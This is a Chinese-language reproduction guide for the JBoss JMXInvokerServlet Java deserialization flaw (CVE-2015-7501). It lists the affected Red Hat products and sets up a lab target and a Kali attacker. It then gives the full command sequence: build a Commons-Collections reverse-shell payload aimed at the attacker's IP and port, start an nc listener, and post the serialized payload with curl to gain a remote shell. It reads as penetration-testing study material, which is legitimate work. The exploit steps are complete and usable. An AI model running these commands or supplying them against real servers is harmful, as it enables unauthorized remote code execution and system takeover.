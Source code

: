 （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞
=====================================================

一、漏洞简介
------------

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

二、漏洞影响
------------

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS
6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV)
6.x版本和5.x版本；Enterprise Application Platform
6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW)
6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA
Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat
OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.151:8080/invoker/JMXInvokerServlet>
返回如图，说明接口开发，存在反序列化漏洞

![](resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId27.png)

打开nc界面，发现shell已经弹回来了

![](resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId28.png)
